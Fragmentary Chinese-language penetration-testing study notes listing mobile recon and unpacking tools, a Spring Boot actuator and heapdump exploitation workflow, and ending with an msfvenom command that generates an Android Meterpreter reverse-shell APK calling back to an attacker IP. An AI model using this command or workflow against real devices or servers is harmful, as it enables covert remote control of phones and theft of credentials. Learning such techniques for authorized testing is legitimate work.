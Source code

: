 用fofa搜索python搭建的网站





## APP

067 

https://github.com/kelvinBen/AppInfoScanner

一款适用于以HW行动/红队/渗透测试团队为场景的移动端(Android、iOS、WEB、H5、静态网站)信息收集扫描工具，可以帮助渗透测试工程师、攻击队成员、红队成员快速收集到移动端或者静态WEB站点中关键的资产信息并提供基本的信息输出,如：Title、Domain、CDN、指纹信息、状态信息等。

https://github.com/MobSF/Mobile-Security-Framework-MobSF

Mobile Security Framework (MobSF) is an automated, all-in-one mobile application (Android/iOS/Windows) pen-testing, malware analysis and security assessment framework capable of performing static and dynamic analysis.

https://mobexler.com/

Mobexler is a customised virtual machine, designed to help in penetration testing of Android & iOS applications.

068

apk查壳工具

apk脱壳工具

woc护网真他妈赚钱。挖src漏洞也可以

071 拿下服务器

实战 通过报错页面的长相推断出用的是springboot从而搜索相关漏洞利用 https://github.com/LandGrey/SpringBootVulExploit

先抓包，找到host

webpack packerfuzz打包分析

web漏洞扫描：awvs探针

heapdump 漏洞利用 下载它挖漏洞！

用java visualVM/Elipces memory analysis分析相关文件

Spring Boot Actuator未授权访问【XXE、RCE】单/多目标检测 https://github.com/rabbitmask/SB-Actuator

https://github.com/wyzxxz/heapdump_tool

Aliyun AK Tools By T00ls.Net

md狗东西关键部分没录进去

### 路飞学城公开课

LHOST写攻击方的ip

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.43.120 LPORT=5555 R > sb.apk
```
